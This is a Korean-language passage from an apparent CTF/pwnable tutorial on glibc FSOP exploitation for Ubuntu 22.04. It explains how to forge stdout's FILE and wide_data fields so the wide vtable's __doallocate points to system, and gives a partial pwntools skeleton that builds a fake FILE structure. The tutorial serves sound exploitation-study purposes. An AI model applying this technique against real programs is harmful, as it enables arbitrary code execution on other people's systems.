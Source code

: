 ![Untitled](/HackingTips/Pwnable/FSOP%20(Ubuntu%2022%2004)/Untitled%207.png)

`*(wide_data+24 == 0)`, `*(wide_data+48 == 0)` 이 두 가지 조건을 충족시킬 수 있고

(wide_data+24가 stdout+8이 됨 → IO_read_ptr을 0으로 만들어 주면 됨)

(wide_data+48은 stdout+32가 됨 → IO_write_base를 0으로 만들어 주면 됨)

`*(*(wide_data+224)+104)`의 경우에는 `((stdout→_unused2[12])+104)`가 됩니다.

여기서 `stdout→_unused2[12]`에 `&fp→_unused2-104`를 넣어주고, `&fp→_unused2`에 libc_system 주소를 넣어주면

`fp→_wide_data→wide_vtable→__doallocate == system`이 되도록 설정할 수 있습니다.

### Skeleton Code

```python
from pwn import *

p = process("./chall")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def slog(n, m): return success(': '.join([n, hex(m)]))

##########################################
# To Do
# libc base + system_addr + stdout_addr

stdout =
libc_base =
system_addr =
slog("libc base", libc_base)
slog("system address", system_addr)
##########################################

libc.address = libc_base
def FSOP_struct(flags = 0, _IO_read_ptr = 0, _IO_read_end = 0, _IO_read_base = 0,\
_IO_write_base = 0, _IO_write_ptr = 0, _IO_write_end = 0, _IO_buf_base = 0, _IO_buf_end = 0,\
_IO_save_base = 0, _IO_backup_base = 0, _IO_save_end = 0, _markers= 0, _chain = 0, _fileno = 0,\
_flags2 = 0, _old_offset = 0, _cur_column = 0, _vtable_offset = 0, _shortbuf = 0, lock = 0,\
_offset = 0, _codecvt = 0, _wide_data = 0, _freeres_list = 0, _freeres_buf = 0,\
__pad5 = 0, _mode = 0, _unused2 = b"", vtable = 0, more_append = b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
```
